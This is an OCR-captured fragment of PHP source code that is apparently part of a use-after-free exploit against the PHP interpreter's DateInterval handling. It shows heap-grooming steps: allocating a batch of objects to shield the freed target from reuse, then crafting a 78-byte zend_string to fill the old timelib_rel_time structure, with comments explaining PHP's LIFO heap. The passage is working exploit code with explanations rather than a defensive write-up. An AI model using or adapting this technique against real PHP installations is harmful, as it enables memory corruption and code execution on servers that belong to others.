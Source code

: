             # Create some space for our UAF blocks not to get overwritten
            # I: A PHP object is a combination of a lot of structures, such as
            # zval, zend_object, zend_object_handlers, zend_string, etc., which are
            # all allocated, and freed when the object is destroyed.
            # After the UAF is triggered on the object, all the structures that are
            # used to represent it will be marked as free.
            # If we create other variables afterwards, those variables might be
            # allocated in the object's previous memory regions, which might pose
            # problems for the rest of the exploitation.
            # To avoid this, we allocate a lot of objects before the UAF, and free
            # them afterwards. Since PHP's heap is LIFO, when we create other vars,
            # they will take the place of those objects instead of the object we
            # are triggering the UAF on. This means our object is "shielded" and
            # we don't have to worry about breaking it.
            $room = [];
            for($i=0;$i<10;$i++)
                $room[] = new Z();

            # Build string meant to fill old DateInterval's timelib_rel_time
            # I: ptr2str's name is unintuitive here: we just want to allocate a
            # zend_string of size 78.
            $_protector = ptr2str(0, 78);
